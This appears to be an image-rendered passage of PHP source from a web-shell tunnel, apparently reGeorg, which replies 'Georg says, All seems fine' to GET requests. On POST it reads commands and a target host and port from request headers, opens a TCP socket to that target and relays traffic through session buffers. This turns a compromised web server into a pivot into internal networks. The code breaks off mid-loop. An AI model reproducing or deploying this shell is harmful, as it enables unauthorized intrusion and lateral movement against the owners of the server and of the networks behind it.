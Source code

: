 ```php
                $arh[$arh_key] = $val;
            }
        }
        return( $arh );
    }
}
if ($_SERVER['REQUEST_METHOD'] === 'GET')
{
    exit("Georg says, 'All seems fine'");
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
	set_time_limit(0);
	$headers=apache_request_headers();
	$cmd = $headers["X-CMD"];
    switch($cmd){
		case "CONNECT":
			{
				$target = $headers["X-TARGET"];
				$port = (int)$headers["X-PORT"];
				$sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
				if ($sock === false) 
				{	
					header('X-STATUS: FAIL');
					header('X-ERROR: Failed creating socket');
					return;
				}
				$res = @socket_connect($sock, $target, $port);
                if ($res === false) 
				{ 
					header('X-STATUS: FAIL');
					header('X-ERROR: Failed connecting to target');
					return;
				}
				socket_set_nonblock($sock);	
				@session_start();
				$_SESSION["run"] = true;
                $_SESSION["writebuf"] = "";
                $_SESSION["readbuf"] = "";
                ob_end_clean();
                header('X-STATUS: OK');
                header("Connection: close");
                ignore_user_abort();
                ob_start();
                $size = ob_get_length();
                header("Content-Length: $size");
                ob_end_flush();
                flush();            
				session_write_close();
                
				while ($_SESSION["run"])
				{
					$readBuff = "";
					@session_start();
					$writeBuff = $_SESSION["writebuf"];
					$_SESSION["writebuf"] = "";
					session_write_close();
                    if ($writeBuff != "")
					{
						$i = socket_write($sock, $writeBuff, strlen($writeBuff));
						if($i === false)
						{ 
							@session_start();
```
